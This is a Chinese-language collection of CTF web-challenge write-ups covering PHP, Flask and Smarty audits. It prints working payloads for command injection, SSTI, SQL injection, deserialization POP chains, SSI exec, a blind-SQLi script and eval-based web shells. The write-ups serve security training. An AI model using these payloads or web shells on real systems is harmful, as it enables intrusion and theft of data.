

[toc]

# 0x30.[WUSTCTF2020]朴实无华(审计)

robots找到个文件`fAke_f1agggg.php`，假的flag，查看头，找到fl4g.php。

```php
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);


//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}

//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
   else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
?>
```

其中

```php
$num='1e10';
echo intval($num);                    // 1
echo '</br>';
echo intval($num+1);                  // 1410065409
```

那么level1就很好绕过了。level2：弱类型绕过：`0e215962017`

level3过滤了cat，可以使用tac，也过滤了空格，使用`$IFS$9`绕过

最终payload:`num=1e10&md5=0e215962017&get_flag=$IFS1ffffllllaaaggg`

# 0x31.[WesternCTF2018]shrine(SSTI)

```python
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')
@app.route('/')
def index():
    return open(__file__).read()


@app.route('/shrine/<path:shrine>')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))


if __name__ == '__main__':
    app.run(debug=True)
```

`{{7*7}}`发现有SSTI

注册了一个名字为`FLAG`的config，同时这个题目把`(),config,self`都过滤掉了，并且黑名单设置的时候，替换为空。

那么可以使用python的内置函数`url_for`和`get_flashed_messages`

`url_for.__globals__`发现：`'current_app': <Flask 'app'>`

`current_app`就是当前下的app，接下来查看当前app下的config

```python
/shrine/{{url_for.__globals__['current_app'].config}}
or 
/shrine/{{url_for.__globals__['current_app'].config.FLAG}}
```


# 0x32.[SWPU2019]Web1(无列名注入)

>   https://www.anquanke.com/post/id/193512
>
>   information_schema被waf，无列名注入

```sql
无列名注入
select 1,2,3 union select * from users;
// 使用这个语句，前面的select 1，2，3 会变成列名。如果此时我们再使用下面的语句
slecet 2 form (select 1,2,3 union select * from users)a; 
// 就可以得到我们的第二列的所有数据
```

通过测试发现过滤了空格，or和注释符号，这样orderby和information_schema都使用不了了。

information_schema使用不了可以使用InnoDb引擎或者sys数据库

>   从MYSQL5.5.8开始，InnoDB成为其默认存储引擎。而在MYSQL5.6以上的版本中，inndb增加了innodb_index_stats和innodb_table_stats两张表，这两张表中都存储了数据库和其数据表的信息，但是没有存储列名。
>
>   在5.7以上的MYSQL中，新增了sys数据库，该库的基础数据来自information_schema和performance_chema，其本身不存储数据。可以通过其中的schema_auto_increment_columns来获取表名。
>
>   sys库需要root权限才能访问。innodb在mysql中是默认关闭的。

空格可以用内联/**/来绕过

经过测试发现有22个字段，回显在2和3：

>   -1'/\*\*/UNION/\*\*/SELECT/\*\*/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'

比赛中bypass `information_schema`是用的`sys.schema_auto_increment_columns`，但是buu平台没有这个库。

还有一个方法：

innodb

-   表引擎为innodb
-   MySQL> 5.5
-   innodb_ table_stats、 innodb_table_index存 放所有库名表名
-   `select table_name from mysql.innodb_table_stats where database_ name=库名`;

这个方法在buu也不行。。。

所以只能无列名注入：

使用innodb绕过：

```
-1'/**/union/**/select/**/1,2,group_concat(table_name),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22/**/from/**/mysql.innodb_table_stats/**/where/**/database_name=database()&&'1'='1
```

查到有ads和users两张表。

````
-1'/**/union/**/select/**/1,(select/**/group_concat(`2`)/**/from/**/(select/**/1,2,3/**/union/**/select*from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22&&'1'='1
````

查看另一列

```
-1'/**/union/**/select/**/1,(select/**/group_concat(`3`)/**/from/**/(select/**/1,2,3/**/union/**/select*from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22&&'1'='1
```

# 0x33.[网鼎杯 2020 朱雀组]Nmap

使用的是nmap，提示在/flag中，所以可以写入到文件：

`' -iL /flag -oN flag.txt '`

解法二：

`' <?php @eval($_POST["hack"]);?> -oG hack.php '`

回显了hacker

`' <?= @eval($_POST["hack"]);?> -oG hack.phtml '`

可以访问，蚁剑就OK。

# 0x34.[SUCTF 2019]Pythonginx

>   知识点：
>
>   1.   blackhat2019的一个议题：https://i.blackhat.com/USA-19/Thursday/us-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf
>
>        大致就是说假如http://evil.c℀.com经过处理会变成http://evil.ca/c.com
>
>   2.   在unicode中字符℀(U+2100)，当IDNA处理此字符时，会将℀变成a/c，因此当你访问此url时，dns服务器会自动将url重定向到另一个网站。如果服务器引用前端url时，只对域名做了限制，那么通过这种方法，我们就可以轻松绕过服务器对域名的限制了。
>
>   3.   **CVE-2019-9636：urlsplit不处理NFKC标准化**
>
>   4.   Nginx重要文件的位置

```
nginx重要文件位置
配置文件存放目录：/etc/nginx
主配置文件：/etc/nginx/conf/nginx.conf
管理脚本：/usr/lib64/systemd/system/nginx.service
模块：/usr/lisb64/nginx/modules
应用程序：/usr/sbin/nginx
程序默认存放位置：/usr/share/nginx/html
日志默认存放位置：/var/log/nginx
配置文件目录为：/usr/local/nginx/conf/nginx.conf
```

```python
        @app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333"
```

进行了三次判断，最后一次过了之后才会执行读取文件的操作。

问题就出现在第二次和第三次判断的中间：`newhost.append(h.encode('idna').decode('utf-8'))`

所以在第三个必须等于suctf.cc

可用payload：

```
file://suctf.cℭ/usr/local/nginx/conf/nginx.conf
file://sucⓉf.cc/usr/local/nginx/conf/nginx.conf
```

# 0x35.[MRCTF2020]PYWebsite

看源码发现有前段的验证(没卵用)，flag.php进去之后提示

```
<h1>拜托，我也是学过半小时网络安全的，你骗不了我！</h1><p>我已经把购买者的IP保存了，显然你没有购买</p><p>验证逻辑是在后端的，除了购买者和我自己，没有人可以看到flag</p><a href="index.html" >还不快去买</p><
```

真正的验证在后端。

购买者和自己，可以伪造成本地访问，加X-Forwarded-For头得到flag

# 0x36.[极客大挑战 2019]FinalSQL(盲注)

依次点12345，然后测试id=6的时候返回`Clever! But not this table.`，7以上报error

注入点在id，过滤了一部分内容，盲注，直接上脚本：

```python
import requests
import time

url = 'http://b392895c-24a8-4369-9d79-e4d112a0d249.node4.buuoj.cn:81/search.php?id='
i = 0
flag = ''
while True:
    i += 1
    # 从可打印字符开始
    begin = 32
    end = 126
    tmp = (begin + end) // 2
    while begin < end:
        #print(begin, tmp, end)
        time.sleep(0.1)
        # 爆数据库:geek
        # payload = "''or(ascii(substr(database(),%d,1))>%d)" % (i, tmp)
        # 爆表: F1naI1y,Flaaaaag
        #payload = "''or(ascii(substr((select(GROUP_CONCAT(TABLE_NAME))from(information_schema.tables)where(TABLE_SCHEMA=database())),%d,1))>%d)" % (i, tmp)
        # 爆字段
        # F1naI1y: id,username,password
        # Flaaaaag:id,fl4gawsl
        # payload = "''or(ascii(substr((select(GROUP_CONCAT(COLUMN_NAME))from(information_schema.COLUMNS)where(TABLE_NAME='Flaaaaag')),%d,1))>%d)" % (i, tmp)
        # 爆flag 要跑很久
        payload = "''or(ascii(substr((select(group_concat(username))from(F1naI1y)),%d,1))>%d)" % (i, tmp)
        # 爆flag 很快
        #payload = "''or(ascii(substr((select(password)from(F1naI1y)where(username='flag')),%d,1))>%d)" % (i, tmp)
        r = requests.get(url+payload)
        if 'Click' in r.text:
            begin = tmp + 1
            tmp = (begin + end) // 2
        else:
            end = tmp
            tmp = (begin + end) // 2

    flag += chr(tmp)
    print(flag)
    if begin == 32:
        break
```

password里面垃圾东西很多，可以先查username然后查password


# 0x37.[MRCTF2020]Ezpop


```php
Welcome to index.php
<?php
//flag is in flag.php
//WTF IS THIS?
//Learn From https://ctf.ieki.xyz/library/php.html#%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%AD%94%E6%9C%AF%E6%96%B9%E6%B3%95
//And Crack It!
class Modifier {
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return $this->str->source;
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}

if(isset($_GET['pop'])){
    @unserialize($_GET['pop']);
}
else{
    $a=new Show;
    highlight_file(__FILE__);
}
```

```php
__construct()//当一个对象创建时被调用
__destruct() //当一个对象销毁时被调用
__toString() //当一个对象被当作一个字符串使用
__sleep()//在对象在被序列化之前运行
__wakeup()//将在反序列化之后立即被调用(通过序列化对象元素个数不符来绕过)
__get()//访问类中一个不存在的属性时自动调用
__set()//设置一个类的成员变量时调用
__invoke()//调用函数的方式调用一个对象时的回应方法
__call()//当调用一个对象中的不能用的方法的时候就会执行这个函数
此处用到的主要是__toString()，__wakeup()，__get()，__invoke()，
```

首先是Modifier类，append可以包含文件，`__invoke`中调用了append方法，`__invoke`自动调用的条件是类被当做一个函数被调用。

接下来是Test，construct用不上 ，直接看get，可以看到p被当做函数来调用，正好符合Modifier的要求。魔法函数__get会在访问类中一个不存在的属性时自动调用。

然后是Show类，魔术方法\_\_toString中会返回属性str中的属性source，如果刚刚提到的source属性不存在，那么就符合了Test类中的要求，魔术方法__toString在类被当做一个字符串处理时会被自动调用。

wakewp将source传入正则进行匹配，这时source被当做字符串来处理，最终会调用tostring方法

于是：`反序列化-> show.__wakeup-> show.tostring->test.get->modiflier.invoke->include`

exp:

```php
<?php
class Modifier {
    ///protected  $var="flag.php";
	protected $var="php://filter/read=convert.base64-encode/resource=flag.php";
}
class Show{
    public $source;
    public $str;
}
class Test{
    public $p;
}
$a = new Show();
$b = new Show();
$a->source=$b;
$b->str=new Test();
($b->str)->p=new Modifier();
echo urlencode(serialize($a)); 
?>
```

# 0x38.[NPUCTF2020]ReadlezPHP

```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}
@$ppp = unserialize($_GET["data"]);
2021-10-05 10:21:03
```

可以直接命令执行：

```php
<?php
class HelloPhp
{
    public $b="assert";
    public $a="phpinfo()";
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;
echo serialize($c);
?>
```

# 0x39.[CISCN2019 华东南赛区]Web11(SSTI)



抓包改下xff，确实有用。

看了wp说是Smarty SSTI，Smarty 是一个 PHP 的模板引擎。

查看 Smarty 版本：

```
{$smarty.version}
```

 **漏洞利用**

不同版本可以利用的方式不同，常用的有以下三种方法：

1.旧版 Smarty 支持使用{php}{/php}标签来执行被包裹其中的 php 指令。

Smarty3 的官方手册描述：

```
Smarty已经废弃{php}标签，强烈建议不要使用。在Smarty 3.1，{php}仅在SmartyBC中可用
```

2.旧版 Smarty 可以通过 self 获取 Smarty 类再调用其静态方法实现文件读写

3.PHP 函数都可以在模板中使用，因此注入时，可以直接使用：

```
{system('ls')}
```

便可随意执行命令；执行多条语句的话可以使用下面的形式：

```
{system('ls')}{system('cat index.php')}
```

每个{if}必须有一个配对的{/if}. 也可以使用{else} 和 {elseif}. 全部的PHP条件表达式和函数都可以在if内使用。
也就是说我们把php代码写在`{if PHP代码}{/if}` 就可以了，PHP代码可以被执行。

payload有很多：

```
{if show_source('/flag')}{/if}
{readfile('/flag')}
{if system('cat /flag')}{/if}
```

# 0x3A.[BJDCTF2020]EasySearch

>   SSI(Server Side Includes)注入漏洞

```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
?>
```

```python
import hashlib 
for i in range(100000000): 
    a = hashlib.md5(str(i).encode("utf-8")).hexdigest() 
    f a[0:6] == '6d0bc1': 
        print(i)
```

发过去之后：public/dc64a1535c94b7babc55ab528fea462c46e94e90.shtml

然后回显

```
Hello,6d0bc1

data: Tuesday, 05-Oct-2021 10:58:18 UTC

Client IP: 117.152.88.50
```

感觉是xff，但是没用，看wp说是《Apache SSI远程命令执行漏洞》

在username写`<!--#exec cmd="ls"-->`，然后在response给的链接打开。

慢慢找就找到flag了。

# 0x3B.[BSidesCF 2019]Futurella

....也不知道想考啥，进去就有flag

# 0x3C.[GYCTF2020]FlaskApp


```python
@app.route('/decode',methods=['POST','GET'])
def decode():
    if request.values.get('text') :
        text = request.values.get("text")
        text_decode = base64.b64decode(text.encode())
        tmp = "结果 ： {0}".format(text_decode.decode())
        if waf(tmp) :
            flash("no no no !!")
	return redirect(url_for('decode')
        res =  render_template_string(tmp)
```

# 0x3D.[BSidesCF 2019]Kookie

提示：

```
 Log in as admin!

We found the account cookie / monster 
```

构造：

```
Cookie: username=admin
```

# 0x3E.[极客大挑战 2019]RCE ME

审计：

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}

// ?>
```

正则可视化：


异或或者去取反绕过

```php
<?php
echo urlencode(~'phpinfo');
?>
    
payload:
?code=(~%8F%97%8F%96%91%99%90)();
```


禁用了很多函数，

可以使用scandir和readfile：

```php
<?php
    //print_r(scandir('./'))
echo urlencode(~'print_r');
echo urlencode(~'scandir');
?>
%8F%8D%96%91%8B%A0%8D
%8C%9C%9E%91%9B%96%8D
payload:
(~%8F%8D%96%91%8B%A0%8D)((~%8C%9C%9E%91%9B%96%8D)(("/")));
```

之后使用readfile读：

```
<?php
echo urlencode(~'readfile');
?>

//%8D%9A%9E%9B%99%96%93%9A

payload:
flag:(~%8D%9A%9E%9B%99%96%93%9A)((~%D0%99%93%9E%98));
readflag:(~%8D%9A%9E%9B%99%96%93%9A)((~%D0%8D%9A%9E%9B%99%93%9E%98));
```

flag是空的，readflag是elf文件：


传一句话马：

```php
<?php 
error_reporting(0);

$a='assert';
$b=urlencode(~$a);
echo $b;

echo "<br>";
$c='(eval($_POST["test"]))';
$d=urlencode(~$c);
echo $d;
 
 ?>
?code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%DD%8B%9A%8C%8B%DD%A2%D6%D6);
```

蚁剑连之后并没有权限，有这样一个插件


之后就可以运行readflag了。

# 0x3F.[MRCTF2020]套娃

```php

$query = $_SERVER['QUERY_STRING'];

 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
    die('Y0u are So cutE!');
}
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}
```

